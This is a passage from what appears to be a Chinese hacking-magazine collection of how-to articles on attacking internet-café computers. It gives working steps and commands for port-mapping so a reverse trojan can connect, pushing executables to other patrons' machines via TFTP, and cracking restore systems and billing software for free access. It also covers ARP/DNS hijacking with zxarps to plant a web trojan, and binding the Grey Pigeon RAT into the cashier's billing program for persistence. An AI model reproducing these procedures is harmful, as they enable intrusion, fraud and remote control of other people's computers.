进入路由器的 WEB 管理页，在“虚拟服务器”添加要映射的木马端口 8000，IP 地址填写内网主机 `192.168.1.4`，协议选 TCP 或 ALL，在最后“启用”项打勾，如图9。现在反弹木马就可以成功上线了。

- 2. UPnP 自动端口映射

UPnP 自动端口映射功能可使网关或路由器的 NAT 模块自动端口映射，将监听端口映射到内网电脑。打开工具点击“下一步”，程序会自动查找 UPnP 设备，找到 `WAN Device`，如图10。


点击“下一步”，在本机地址里输入内网 IP `192.168.1.4`，本机端口为 `8000`，其余项默认，使用默认公网地址并勾选启用。点击“下一步”添加端口成功，如图12。


> 注意：如果查找 UPnP 设备失败，可能是系统服务中禁止了 SSDP 服务或开启了 XP 系统中的 ICF 防火墙；还需确认网关或路由器是否支持并开启 UPnP 功能。

相信通过上面的几个方法，我们就能够成功破解网吧路由器的密码及端口映射，使木马成功上线了！

（本文涉及到的 X-Scan、WebCrack 和 UPnP 自动端口映射工具已收录到光盘中）

## 网吧黑客


## 黑客侃记

Evil

我和几个同学一起去附近的网吧玩魔兽，正当我们玩得高兴的时候，有三个流里流气的年轻人出现，拍着同学肩膀说要占机位。我们与其争执后，考虑到正面冲突不利，只好先换到别的电脑，但也决定给这些不讲礼貌的人一点教训。

先确认目标环境：对方使用 WinXP + 万象 2004。通过局域网查看工具扫描后，锁定了对应机器与 IP（如 192.168.0.141、192.168.0.142）。随后尝试通过系统管理组件与服务项启用 TELNET。


图1

第一次尝试在远端开启 TELNET 服务时失败，原因是权限不足（XP 默认限制更严格，2000/2003 需要管理员权限）。于是改为继续探测可利用服务与可执行入口。


图2

接着通过辅助工具查看本机保存的用户名与密码，推测网吧批量维护导致口令配置相近。将目标 IP、用户名、密码与 Telnet 端口填入后，Telnet 仍未成功，但发现可通过远程执行 CMD 命令继续操作。


图3

随后搭建 TFTP 服务并下发命令（示例：`tftp -i 192.168.0.251 get 1.exe`），将程序投递到目标机，再远程运行。文中后续描述了通过聊天软件与系统时间调整等方式进行“恶作剧”演示。


图4


图5

结尾强调：无论网络还是现实都应讲礼让，学习网络安全技术应以正当用途为先。文末附注提到文中相关工具可在配套光盘中获取。

## 破解网吧还原系统终极法

网吧里的还原系统一直是竖在小菜面前的一道难关，本文我就总结一下各种常见的还原系统的破解方法。

### 1. 还原精灵

还原精灵曾经非常流行，但因为安全问题现在已经退居二线。还原精灵验证密码时会以明文出现在内存中，可用 WinHex 等工具直接查看密码。在 Win9X/ME 下可用图1所示工具读出密码，在 Win2000/XP 下可用图2所示工具读出密码。


### 2. 还原卡

破解还原卡主要分两种情况：找出密码和解除还原。在 Win98/ME 下可用直接覆盖读写工具实现（图3），在 Win2000/XP 下可用诸如小帅兵还原卡密码读取工具（图4）。此类工具通常只支持较老版本还原卡，部分品牌可直接读取或重置。


需要注意的是，某些工具仅能运行在 Win9X/ME 系统下，并且只能查出老版本还原卡密码。若解除还原困难，可通过硬盘保护卡工具处理（图5）。


选择对应硬盘接口和破解方式，重启后还原卡就可能以安装形式出现。经过测试，可处理多种版本的小哨兵、金盾、沙蓝、华苏等。达到目的后可帮商家重新安装还原卡，安装模式为默认安装即可，不必更改安装密码。


### 3. 冰点还原


冰点还原（DeepFreeze）是常见工具。对于老版本（任务栏出现“冰封电脑”）可使用“冰点终结者”（图6）和“Deep Unfreezer”（图7）在无密码情况下更改还原模式。对于新版本（任务栏出现小猫图标）也有专门工具破解（图8）。


如果相关工具不可用，还有一个变通办法：网吧常有 GHOST 备份，多使用 MaxDos。可先恢复系统完成操作后再装回冰点。若遇到 MaxDos 密码问题，可用 MAXDOS 密码破解器（图9）。


有了以上工具，在网吧中对还原卡、还原精灵、冰点还原等系统的处理会轻松很多。（本文涉及的还原系统破解工具已收录到光盘中）

## 网吧里玩输入法漏洞

在学校闲来无事，于是就到学校旁边的网吧去上网了。这个网吧安装的是万象管理系统，我记得万象曾经有个输入法漏洞，就是在万象登录框中，切换到智能ABC输入法，然后依次输入“V”“↑”“Del”“Enter”键，就可以将管理软件强行终止掉了。我试了一下，没有成功，我猜想这个网吧里的万象管理软件可能是新版本的，可能已经修复了这个漏洞（小编注：这个输入法漏洞很早就已经公布过了，目前基本上已经绝迹了）。

我又试了一下“Sleep”和“Wakeup”按键的组合，发现也无法进入睡眠模式，看来这条路也被堵死了。就在按这个组合的同时，我发现了刚才切换的输入法，也就是说我们是可以在框内切换输入法的，但是却被管理软件屏蔽了。这样，我就有了一个新的思路，是否可以通过某种方法让前台ABC输入法跳到前台来呢？我想这招方法一定是有的，我们继续来测试。

调出了万象2004的登录界面（图1），直接点回车或者用鼠标点“上机”按钮，就会出现“请输入会员卡号，如果您是非会员上机，请选择普通卡上机”的提示。我们再次切换输入法（Ctrl+Shift，切换到智能ABC），我惊喜地发现智能ABC输入法跳了出来（图2）。现在就可以让经典的输入法漏洞重现了，依次输入“V”“↑”“Del”“Enter”，结果成功了（图3）。可以清楚地看到错误提示，此时只要点一下回车或空格就可以将万象终止了。

别高兴得太早，现在还没有结束，因为此时万象会隔一段时间就重新检查一次，如果发现程序被破坏了就会调用关机函数将电脑关闭，我们当然不能让它关机。当进入系统时，看到进程中并没有万象的进程，那么它是怎么关机的呢？后来发现万象是将DLL插入到了explorer.exe文件中。只要将explorer.exe终止掉，然后再用任务管理器重新运行一次，就可以摆脱万象了（图4）。还有一个方法就是使用regsvr32来反注册DLL文件：

```bat
For %a in (AutoLive.dll,Encipher.dll,wxGame.dll,ESALES.dll,StpClt.dll,wxctxmnu.dll,astl.dll,wxfavop.dll,wxiconmu.dll,wxSD.dll) do regsvr32 /u %a
```

这样，万象的本地程序我们就突破了。


如果到这里我们还不能进去，那么还可以使用一个叫做万象密码读取清除器的软件（图5），用来读出万象密码的HASH值，然后再使用破解MD5密码的软件跑出密码就可以了。


（本文所涉及到的万象密码读取清除器已收录到光盘中）

## 看我让电脑起死回生

战神MARS


去年，我买了一台电脑用来学习，可是同宿舍的舍友经常趁我不在的时候建立账户，于是我只好发现后再将这些账号删除。真烦的，如果能有什么工具可以实现禁止别人建立账户就好了。我在网上搜索，皇天不负有心人，终于让我找到了。不过后来这个工具出了问题，差点害得我重装系统……

这个工具叫“网吧专用的维护工具V1.13”，是一款专为网吧维护而开发的工具。它主要具有常用工具、资源管理、启动管理（包括禁止运行管理、必须运行管理）、优化与安全、其它功能等选项，主界面如图1所示。


> 菜鸟恶补：安全模式  
> 在安全模式下将仅使用最基本的系统模块和驱动程序启动Windows系统，不加载网络支持。仅有系统运行所必需的程序能够启动，其余都处于不活动状态，以便于清除病毒和卸载顽固程序。


就用它来禁止别人在我的电脑中随便增加账户。点击“启动管理”选项中的“禁止运行管理”子选项，如图2。首先设定多少秒封杀一次，一般选择1秒或者5秒即可。然后是“禁止运行的窗口”，全选该区域选项……最后是“禁止运行的程序名或窗口（可用模糊标题）”，如设置计算机管理、用户账户等。

在“启动管理”选项还有个“必须运行管理”，是用来设置网吧所使用的客户端。而“必须运行程序”有万象2004客户端、美萍客户端、PUBWIN客户端、ikeeper客户端等。如果我们设置了必须运行的程序，而内存中又没有发现此进程的话，电脑会在设定时间内重新启动计算机（图4）。


刚开始我设置得挺好的，可后来程序出了点小问题：我不小心设置了必须运行程序——PUBWIN客户端，但我的电脑里并没有安装，结果开机后系统便自动重启，连Windows也进不了。后来准备利用Windows的安全模式恢复系统，按住F8进入系统选择，选择“安全模式”进入。

进入后，系统不再自动重启了。开机时系统提示某某文件出错。还好Windows为我们提供了chkdsk这个小工具，可帮助把系统中出错的程序找出来。在“开始”-“运行”栏中输入chkdsk，运行后会校验文件和文件夹（图5）。


使用此方法我找到了出错的文件夹：`C:\Documents and Settings\Administrator\Local Settings\Temp\E_4`。现在可以动手来清除这讨厌的东西了。

首先将“网吧专用的维护工具V1.13”目录下的三个文件全部删除，分别为`3.skn`、`data.cdb`、`wmtool.exe`（图6）。


然后再将上面找到的`C:\Documents and Settings\Administrator\Local Settings\Temp\E_4`文件夹删除（图7）。不过，删除的时候可能会出现警告……

先对话框，说是“**文件正在被使用，无法删除”。这时，按住`ctrl+shift+del`组合键调出“任务管理器”，找到自己用户名下的进程，一般没有几个。使用排除法来确定可疑的进程，将进程结束后，就可以删除文件夹了。

- **系统中常见的进程**
  1. `Explorer.exe`：在Windows运行时会启动一个名为Explorer.exe的进程。
  2. `tasking.exe`：Windows任务管理器对应的进程。
  3. `ctfmon.exe`：Office相关输入法/文字服务进程。
  4. `conime.exe`：输入法相关进程。
  5. 还可能存在其他程序进程（如远控木马等），需要结合路径与行为判断。


好了，接下来就是重启计算机，然后以正常模式登录了，Windows不再重启了，问题完美解决。希望大家遇到问题时不要着急，自己理好思路，慢慢分析问题，找准突破口，相信自己可以解决问题的。

> （文章中涉及到软件网吧专用的维护工具V1.13已经收录于光盘中）

## 特色漂游到庭

祭司磊

对于07年第二期的“偷天换日之攻破NBOSS免掏上网”一文，相信大家都玩得比较熟练了吧。但是有的网友却说找不到相应的客户端，因为正规连锁店的客户端是商家远程升级或提供的，而且网上流传的不是版本低就是版本高，总之是不对“户口”。当使用假的客户端欺骗主机后，细心的网管会从主机里发现那台电脑没有响应，通常会认为是死机或断开网络了。

这回，我们用个更狠、更快、更安全的小妙招来攻破NBOSS。在旧的3.3.3.0版本中，结束掉`nboss_srv.exe`和`NetBarClient.exe`互相守护的双进程，就可以结束计费进程了。但为什么升级后的版本，即使结束掉计费进程，也会自动再生呢？这是因为NBOSS插入了Windows系统登录进程，随系统用户自动登录而启动。


老规矩，祭出我的利器Icesword（冰刃）来查看系统进程，找到处理系统登录的进程`winlogon.exe`，尝试同时将相关守护进程一起结束。系统重启后，再次处理`winlogon.exe`、`smss.exe`和`NetbarClient.exe`计费进程（图1）。系统立即弹出了登录界面，直接点击登录，熟悉的桌面又回来了，只是没有了任务栏。接着运行精锐网吧辅助工具，在“限制恢复”选项中“恢复所有限制并立即生效”便可以了（图2）。


一切看似完美，其实不然。因为在结束计费进程后，电脑屏幕右下角的计费图标也消失了。为了更加安全，我向大家介绍一款软件MagicHide。它是用来管理、伪装托盘（也就是系统屏幕右下角的图标）的。安装后，打开程序，切换到“托盘管理”选项，就会看到托盘图标（图3）。为了方便，我们就用QQ图标来伪装，在QQ那栏点击鼠标右键，选择修改托盘提示和图标（注意：不要在QQ图标前面的方框内打勾，否则就会隐藏该托盘），在弹出的对话框内把新的标题内容清空，点击更改图标，然后找到要伪装的图标，最后把“使用自定义标题和图标”的对勾打上（图4）。

由于NBOSS在安装时会写入注册表以实现自身更好的隐藏，因此在默认安装的C盘是找不到的。我们打开精锐网吧辅助工具里的“资源管理”选项，把`C:\YFHStronger\NBC`中的Netbar Client复制出来（图5），选好托盘图标点击确定。好了，和正常上机一样，谁都不会怀疑了（图6）。其实，本文介绍的方法不但能破解NBOSS，只要是双守护进程结束后能自动再生的网吧管理软件都可以使用，包括目前流行的万象2004等。


（本文所涉及到的Icesword、Magichide和精锐网吧辅助工具已收录到光盘中）


最近因为忙于学业和学习编程，已经好久没有进网吧了，昨天因为是男友的生日，所以破例去了一次。网吧的环境倒是不错，只可惜电脑设置得太BT了。

在delphi编程中，资源文件的编译需要使用brcc32.exe，这个程序需要在CMD下运行，可管理员就是不让打开命令提示符（图1）。通过以往的经验判断，当CMD出现如图1所示的提示，一般是在组策略的“用户配置”里做了手脚。在“运行”栏中输入gpedit.msc出现了如图2所示的提示，这并不碍事，继续在“运行”中输入mmc来打开控制台，依次选择“添加/删除管理单元”→“添加”，找到组策略添加就可以了，不幸的是虽然有组策略的添加项目（图3），但是无论如何都添加不成功。


这时候需要改变一下策略了，组策略所有功能的实现都是依靠WINDOWS的中枢神经系统——注册表，而且限制CMD运行的位置一般存于：`[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]`，只要写一个注册表文件导入注册表不就可以运行了嘛。打开记事本输入如下代码，保存为pocmd.reg：


```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\System]
"DisableCMD"=dword:00000000
```

虽然提示导入成功，但是运行CMD，还是出现图1中的提示，于是在记事本中输入如下代码：

```ini
[Version]
Signature="$CHICAGO$"
[DefaultInstall]
DelReg=Del
[Del]
HKCU,SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System,DisableRegistryTools
```

保存为rcg.inf，点击右键选择“安装”，解锁注册表。发现`HKCU\Software\Policies\Microsoft\Windows\System`该项下无相应键值，看来注册表文件是被保护的（图4）。


虽然可以建立“DisableCMD”键并设置其值为“dword:00000000”，但是还是无法运行CMD，直觉告诉我管理员是在系统盘做了设置，把system32目录下的CMD.exe复制出来，看是否能突破限制。打开“我的电脑”，C盘被隐藏了（图5）。


打开记事本输入如下代码，保存为see.bat：

```bat
net start >service.txt
ipconfig /all >ip.txt
```

通过service.txt，发现没有开启server服务，在运行中输入services.msc，开启server服务后，在记事本中输入`net share >share.txt`，保存为share.bat执行。查看到系统中所有的默认共享都是开启的（图6）。结合see.bat执行后的ip.txt，在运行中输入`\\10.173.133.111\c$`，成功打开隐藏的系统盘（图7）。找到system32目录下的cmd.exe复制到桌面，运行后依然出现图1的提示。


难道真的没有办法吗？到BAIDU搜索一下，到了laky的博客，看到一段VBS脚本代码，说是可以实现解除注册表、CMD、Regedit、Taskmgr的限制，赶紧复制到记事本保存为pojie.vbs，代码如下：

```vbscript
On Error Resume Next
Set WSHShell=WScript.CreateObject("WScript.Shell")
With WScript.CreateObject("WScript.Shell")
  .RegDelete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools"
  .RegDelete "HKCU\Software\Policies\Microsoft\Windows\System\DisableCMD"
  .RegDelete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableTaskMgr"
End With
Mybox=MsgBox("enab&vbCr& '程序运行限制已解除'",1024,"Result")
```

运行后奇迹出现了，复制到桌面的CMD.exe可以正常运行，但是在“运行”中输入cmd，还是无法运行命令提示符，不过没有任何提示，只是一闪而过。及时打开任务管理器，出现和CMD一样的情况，虽然可以打开，但是只是一闪而过，这种情况一般是因为存在着保护程序。打开桌面上的CMD，运行“MT-SLIST”，查看系统进程（图8）。


我试着把不是系统进程的所有进程一个个地排除，没有想象中的保护程序运行。最后当结束relock.exe的时候，就可以正常运行CMD了，看来管理员是通过PUBWIN做的限制。剩下的就是通过反注销法找到PUBWIN的管理员密码，去掉限制就可以了。

> （本文所涉及到的脚本文件和MT已收录到光盘中）

## 剖杀 Pubwin

我们这儿的网吧非常多，可是真正能够提供优质服务的却没有几家。我经常去的这家网吧是在2001年左右开业的，目前在我们这个城市里已经有了多家分店。老店以前使用的管理软件是PUBWIN4，后来公安局又统一给安装了PUBWIN EP。可是，安装了PUBWIN EP的电脑很多都出现了不稳定的情况，于是网管又重新给新店换上了菜菜们最爱的PUBWIN4。

我比较喜欢到这家网吧下载电影看，可是这天下载运行WEB迅雷后，运行界面闪了一下就忽然消失了。开始我还以为点错了，又重新运行了一个程序，可是还是老样子。直觉告诉我，一定是网管动手脚了！竟然不让我下载，那我就把你的管理系统给破解了。

说干就干，从U盘里拷贝出网吧破解的必需工具：博锐网吧辅助系统、网吧破解器、PUBWIN幽灵等。正当我准备大干一场时，又发生了意外。当我解压完工具双击运行时，程序还是闪了一下就消失了，晕~！网管也太狠了吧，竟然屏蔽掉了这么多网吧破解工具。郁闷了半天，我开始查看系统信息，结果更加让我郁闷了：禁用了CMD（图1），禁用了任务管理器、禁用了注册表、屏蔽了右键、屏蔽了下载……


无奈，我打开IE，在地址栏输入C:/（图2），噢，C盘竟然可以打开查看，我顿时来了精神。一个一个翻看着重要的目录，却没有发现PUBWIN的安装路径。奇怪了，PUBWIN去哪里了？


我又打开D盘，还是没有发现，可是却发现了一个可疑的程序——启动管理（图3），双击打开后发现了PUBWIN的两个启动选项，不用说直接删除。

下面的问题就是如何解除注册表了，那些网吧破解程序虽然改名后可以运行，但很快就被系统关闭。我在黑客X档案提供的光盘里找啊找，终于找到了一个好东西，是黑枫大哥写的一款系统设置实用工具Erae（图4）。运行后，选择“恢复注册表”，然后在注册表的`HKEY_LOCAL_MACHINE\SOFTWARE\Hintsoft`下找到PUBWIN的注册信息，全部删除。

……点击在线运行，注意这时候 IE 要使用脚本下载，IE 可能会禁止，选择启用即可。然后在页面中点击系统选项——进程管理器，找到 **RECLOCK.EXE** 和 **PUBWINWIN.EXE** 并结束进程……按 `CTRL+ALT+DEL` 注销后即可回到原页面。

这个方法很简单，适合菜鸟级别用户，不过在不同环境下可能有不同情况，需要灵活运用。（文中涉及工具已收录）

我在网上又找到了一个在线破解网站，点击相关入口并下载即可……

## HEADSENSE 网吧管理系统加木马

我是孟星魂

HEADSENSE 的“一卡通”管理系统在许多城市网吧中使用。旧版可通过 `Ctrl+Alt+Del` 调出任务管理器结束进程，新版升级后采用全屏覆盖、窗口最前化，仅正常登录后显示桌面，常见破解方法失效。

进程监控也有升级，关闭关键进程后系统会迅速重启。文中分析其可能依赖系统关键进程并讨论突破思路。

作者在 Windows XP 环境下测试，启用系统防火墙服务（Windows Firewall/ICS）后，客户端出现“卡中余额不足”等异常提示；结合计费机制解释了为何余额为零时仍可短时间上网。

进一步对比 LOOK'N STOP 与系统自带防火墙的差异，指出后者以服务形式运行（`svchost.exe`）更隐蔽，并在多个管理系统（如 PUBWIN EP 等）上做了连通性测试。

服务端通常不会立即报错；有的管理系统在连接丢失一段时间后会自动重启或关机。多数系统仍可被该方法影响。若要修补漏洞，可在防火墙放行程序中添加对应服务端进程名。

## zxarps 也来巧破美萍

冰释火花

### 一、前记

距离高考没有多少天了，为了缓解一下学习压力，忙里偷闲就到网吧放松了一下。看 X 档案也快两年了，对于上面介绍的破解网吧的方法，我也很想尝试一下……突然想起了在第三期杂志中介绍过的 Zxarps，这可是对付局域网的利器呀。我决定使用它来破解美萍。

### 二、攻陷网吧收银台

- 1. 配置网马

我从工具箱里翻出了树杀网马综合生成器，在地址栏处填上 `http://你的内网IP地址/你的木马.exe`……输入 `ipconfig /all`，`IP Address` 后边对应的就是你的内网 IP 地址。

- 2. 搭建平台

接下来需要搭建一个支持 `*.htm` 的平台，可以使用 NetBox（也可使用傻瓜 HTTP 服务器）。安装后建立 Web 目录，然后打开记事本输入以下内容。

```vb
Dim httpd
Shell.Service.RunService "NBWeb", "NetBox Web Server"
Sub OnServiceStart()
  Set httpd = NetBox.CreateObject("NetBox.HttpServer")
  If httpd.Create(80)=0 Then
    Set host1 = httpd.AddHost("", "wwwroot")
    host1.EnableScript = true
    host1.AddDefault "default.asp"
    host1.AddDefault "default.htm"
    host1.AddDefault "index.asp"
    host1.AddDefault "index.htm"
    httpd.Start
  End If
End Sub
Sub OnServiceStop()
  httpd.Close
End Sub
```

（右栏代码续）`host1.EnableScript = true`、`host1.AddDefault ...`、`httpd.Start`、`OnServiceStop` 等，保存为 `main.box` 后双击启动服务。

- 3. 巧攻美萍

现在轮到我们的主角 zxarps 上场了，不过在使用 zxarps 前必须要安装 winPcap.exe，安装过程一路 next 即可。

我们在 zxarps 的同目录下创建一个 bat 文件（内容如 `cmd.exe`），双击后在命令提示符输入：`zxarps.exe -idx 0 -ip 192.168.0.55,192.168.0.66 --hackdns "www.aa.com|22.22.2.2,www.bb.com|1.1.1.1"`……

## 网吧黑客

就上钩了（图4），当对方打开要浏览的网址时，`zxarps.exe` 已经将其转到了我们的网页木马上。

打开灰鸽子，对方已经如愿上钩了（图5），来看一下对方的屏幕吧，呵呵，熟悉的界面一下子就弹了出来（图6）。

### 三、永久的肉鸡

说起来也挺郁闷的，我前几天使用上述的方法拿下过两次收银台电脑了，可是到第二天鸽子就飞了。我还以为是网管发现了呢，仔细一检查才发现是还原精灵在作怪（图7）。如何解决这个问题呢，我想了一下，网吧的数据库每天都在更新，既然这样，和美萍相关的应该不在还原之列。通过查看美萍的进程 `scon.exe`，我找到了它的路径，然后在硬盘的相应位置将美萍程序下载到了本地上。我又取出波刻多文件捆绑器，将 `scon.exe` 和灰鸽子捆绑在了一起（图8）。注意，捆绑后的程序依然要命名为 `scon.exe`，将收银台上的 `scon.exe` 改个名字，然后把捆绑好的 `scon.exe` 传上去，删除原程序。至此，网吧收银台就永远在我们的掌控之中了。菜菜们，庆祝一下吧！

（本文所涉及到的 zxarps、封杀网络公告武器、NetBox、傲盾 HTTP 监杀器、波刻多文件捆绑器以及制作好的录像文件已收录到光盘中）

## 网吧通用破解法之权限提升

相信奋斗于网吧一线的各位菜菜一定思考过这么一个问题：网吧限制怎样才能够实现通用破解。最近，我也一直在思考这个问题，在此，将我的一些想法与大家分享一下！

在脚本注入攻击中，大家费尽心思获得 webshell 后，大多是通过系统安装的第三方软件、系统漏洞等进行提权，从而获取服务器的控制权！在网吧破解中，我们也可以利用这个方法权限提升。说起 Windows 的权限，大家都知道最高权限是 System 权限，我们只要把网吧客户机的权限提升为 System，很多限制就会自动失效的！

我们需要任务管理器可以使用，如果不可以使用的话，可以通过修改注册表、利用 VBS 脚本等方法进行破解，这些破解的方法大家在以前的杂志中都可以找到。当然，我们也可以直接下载一些进程查看类的软件来使用，这在以前的杂志中也介绍过很多。另外我们还需要国产瑞士军刀 Mt.exe。

秘密看一下我所选的这家网吧的一些限制，开机后的界面如图1所示。在“开始”→“运行”栏输入 `regedit`，会出现如图2所示的错误提示；在 IE 浏览器中依次打开“工具”→“Internet 选项”，会出现如图3所示的提示；打开“我的电脑”，在“工具”菜单中没有“文件夹选项”，如图4；在“开始”→“运行”栏输入 `control`，打开“控制面板”，单击“显示”，会出现如图5所示的错误提示！除了以上的一些限制外，还有许多，限于篇幅，就不全部说明了！我们重点来看一下如何提权！

首先打开“任务管理器”，找到“explorer”进程，结束该进程。在结束该进程前一定要确保已经运行了 CMD，然后按 `Alt+Tab` 键切换程序界面，找到 CMD 的窗口，如图6。

找到 `mt.exe` 所在的磁盘目录，输入 `mt -su explorer.exe`，回车后系统会自动加载，这样我们的权限就提升为 System 权限了，破解后的界面如图7所示！

我们来看看上面的那些限制还存在吗？如图8，都已经不存在了。在 CMD 下输入 `whoami`，查看当前系统权限，已经是 System 权限了，如图9。

破解的原理很简单，Windows 的很多进程都是以 System 权限运行的，比如 `Winlogon.exe` 等，说明在 Windows 系统中存在一个 System 的账户。我们要做的只是激活这个账户而已。但是 System 这个账户是无法使用 `net` 或者第三方的软件像激活 guest 用户那样来操作的，而用户进入系统操作文件时无法直接操作内核程序，只是通过 shell 进行操作。Windows 的 shell 程序就是 `explorer.exe`，所以只要把 `explorer.exe` 的权限提升为 System，就相当于以 System 账户登录了，权限提升了，限制自然不攻自破了。

> （本文所涉及到的 MT 和 whoami 已收录到光盘中）

## 网管的故事之有人在绝境上网

墨者

X 小编：平时我们在杂志里看到的都是来宾们在上网时与网吧管理软件的破解斗争，但这次我们一反常态，来看看一个网管是如何发现了网管软件存在的漏洞，追根寻源找到漏洞的形成原因，并最终解决问题的。不过他的解决办法看似管用，其实我们也可以轻易突破的，至于方法就留给叉子们课后去思考了。

最近网吧里突然发生了一个很奇怪的现象，就是有一些电脑突然进入了 Windows 锁定界面。我原先以为是玩家不小心错按了 Windows 的锁定快捷键 `Win+L`，把屏幕给锁定了。但是当我按下回车键后却直接进入了桌面，而不是收费系统的锁定界面，在桌面上可以随意操作，可以上网，可以上 QQ，桌面右下角的收费程序图标却没有显示出来，点击任务栏上的项目也没有任何反应。我的第一反应就是有人破解了管理系统免费上机了。

感慨归感慨，有人免费上网的事儿很快就被老板知道了，老板那个心疼呀，简直快要砸键盘了。他要我这个做网管的马上给他想出预防的方法。我都不知道别人是如何免费上网的，怎么预防呢？看来只有自己先琢磨出破解的办法了，也顺便锻炼一下自己生锈的大脑。

我们网吧使用的是还微（piway）计费软件，软件版本挺配套的。卡分为临时卡、会员卡、管理卡。临时卡和会员卡都需要输入持卡人的身份证后 8 位数字才能使用，而管理卡直接插入就可以使用。还有一点不同的是，临时卡和会员卡在网络不通或者网线未插好的时候无法进入 Windows 桌面，而管理卡则可以。但是没有插卡的时候，鼠标是锁定的，键盘上有些键的功能也锁定了。电脑进入系统后会自动切换到还微计费软件的锁定界面，覆盖了 Windows 桌面。屏幕自动显示 3 分钟的倒计时，时间一到还未插卡就会自动关机。

我首先在屏幕提示插 IC 卡时，尝试着按下了 `Ctrl+Alt+Del` 想调出任务管理器，却发现按钮是灰色的。于是又按下其它常用和不常用的 Windows 快捷键，轮番组合排列测试，发现均是徒劳。这时候突然想到了那台已经被破解电脑的 Windows 锁定界面，于是尝试性地按了下 `Win+L`，并没有反应。百思不得其解的时候想到了以前破解使用的休眠键和唤醒键，以前万象使用休眠键就可以把它解决掉，这个收费系统不会也这么脆弱吧？我按下了键盘右上角的 SLEEP 键，屏幕马上黑了起来。然后回车，屏幕又亮了起来，出现了 Windows 的锁定界面，要你输入密码解开锁定。

网吧里一般都是将系统登录设置成空密码，于是我回车确定，却发现键盘有反应，想使用鼠标点确定，却发现鼠标也被锁定了无法移动。这个可真叫人心情沉重啊。于是双手在键盘上又一番乱按，突然发现鼠标能移动了，键盘也能使用了。当时的心情好激动啊。但是一点确定之后却又跳回了计费软件的锁定界面。按 SLEEP 键重来，又到了 Windows 的锁定界面，这次发现只要按下“Ctrl+Alt+Del”就可以让键盘和鼠标恢复正常了，但是一点确定依然跳回到计费软件的锁定界面，试了好多次都是这样。于是我开始乱按其它多功能键，就那样按着按着，一回车居然进入了 Windows 的桌面，可以正常上网，可以上 QQ，任务栏也没有什么反应。没错，就是这个效果！但是我自己都不知道是按了哪几个键进去的，不过可以排除 `Ctrl+Alt+Del`，因为我后来就没有再一起按过它们……

依然开着，而且鼠标跟键盘也能移动，点击确定便进入了熟悉的 Windows，没有任何限制。原来如此，只要开机后，等至微计费软件出现了锁定的倒计时画面，按住 SLEEP 键让计算机休眠，等到 3 分钟之后再按回车唤醒电脑，然后再点确定就可以免费上网了……

免费上网虽然这么简单，太恐怖了，一定要禁掉。那该怎么禁止呢？既然是用休眠键破解的，那就把休眠键给禁上了吧。普通电脑的话只要单击“开始”→“控制面板”→“电源管理”→“休眠”，将“启用休眠”前的勾去掉就可以了（图1）。将“高级”中的“在计算机从待机状态恢复时，提示输入密码”勾上，“在按下计算机电源按钮时”和“在按下计算机睡眠按钮时”都选择“不采取任何措施”（图2）……

## 菜菜来破网吧限制

我经常在同一家网吧里上网，以前这家网吧中的电脑没什么限制的，交了钱就可以随便玩，实在是太方便我们这些网吧小黑了，但现在这个网吧也越来越牛了，限制是越来越多。在“开始”菜单里没有“运行”栏，不可以访问 E 盘，不可以下载 ActiveX 控件，不可以下载文件，不可以打开 Internet 选项，禁止运行注册表编辑器等……

### 一、使用 360 安全卫士破解大多数限制

然后进入 Internet 选项，ActiveX 控件、下载文件的限制等都是在这里设置的。在 Internet 选项的安全设置里点“自定义级别”，将其中禁用的改为启用就可以取消这些限制了，如图8、图9。

### 二、对于 E 盘封锁的破解

现在就剩下 E 盘的封锁了，我告诉大家一个比较个性的方法：通过 QQ 硬盘下载 Radmin，然后配置好给自己使用的那台电脑装上，然后就可以任意地在电脑里逛了（图10），这个方法可是百试百灵哟！

### 三、小结

相对来讲，这个网吧的设置环境还是比较宽松的，但是我们这些网吧小黑需要的可是自由，所以破解掉一切的限制自然也就是必然的了。但是对于菜鸟来说也不可能一上网就得花费一两个小时的时间去破解网吧的限制。我只是提供给大家一个破解的思路，希望大家能够根据网吧里不同的情况找出最简单有效的方法来进行破解——现在我在这个网吧里上网破解限制简直是秒杀，破解的方法也正被我在这个网吧里慢慢推荐使用！

（文中涉及到的 360 安全卫士已经收录在光盘中）

> **IPC$ 是什么**
>
> IPC$（Internet Process Connection）是共享“命名管道”的资源。它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，在远程管理计算机和查看计算机的共享资源时使用。
>
> 利用 IPC$，连接者甚至可以与目标主机建立一个空的连接而无需用户名与密码，利用这个空的连接，连接者就可以得到目标主机上的用户列表。
>
> 在网上，我们经常会看到有人说 IPC$ 漏洞，其实 IPC$ 并不是真正意义上的漏洞，它本来是微软为了方便管理员的远程管理而开放的远程网络登录功能，但对黑客来说，它却成了一种非常简单方便的远程入侵方法。在 Windows 2000 时代，利用 IPC$ 入侵电脑可是非常流行的。

## QQ斗地主，我的刷分思路

可佬浩男

这几天迷上了QQ的斗地主游戏，玩了没几天就输得惨不忍睹了。输给电脑可不是像菜鸟的作风，总得想点什么办法把我负的几百分弄成正的吧。要是这点都做不到，岂不是白看几年的《黑客X档案》了？我在网上搜索了半天终于找到两个好东西，一个是QQ游戏大厅多开补丁，另一个是QQ斗地主刷分外挂。

先来实现QQ游戏大厅的多开功能，这样我们就可以在一台电脑上同时登录多个QQ号进入游戏了，如图1、图2。现在我们分别使用三个QQ号登录到斗地主游戏中（主QQ号是你要刷分的QQ号码，另外再配上两个别的QQ号码，没有的话大家可以自己去申请），找个没人的桌子坐下，最好设密码，以防止别人来捣乱，如图3、图4。

打开斗地主刷分外挂，如图5，选择主QQ号码的窗口，点开刷后会出现如图6所示的提示，点确定后会要求再次确认，继续点确定，然后就不用管了，程序自己会自动出牌，如图7。


好了，大家现在就可以放心地来刷分了。刷分有什么用呢？还记得我们在上期杂志的黑客终极生报道过的吗，QQ的游戏币是可以自由兑换成QQ币的，所以说，刷分也算是刷QQ币哦！

> （本文所涉及到的多开游戏大厅补丁和斗地主刷分外挂已收录游戏仓中）

## 劲舞团，偷懒才是硬道理

ELF-zero

在目前流行的网络游戏里，劲舞团可是MM们最喜欢的游戏之一。为实际陪MM一起上网，我们这些菜鸟GG可辛苦了。要是自己的等级太低的话，和MM们玩起来可是很没面子的。怎么办？偷懒才是硬道理！就让外挂帮我们把等级升上去吧！

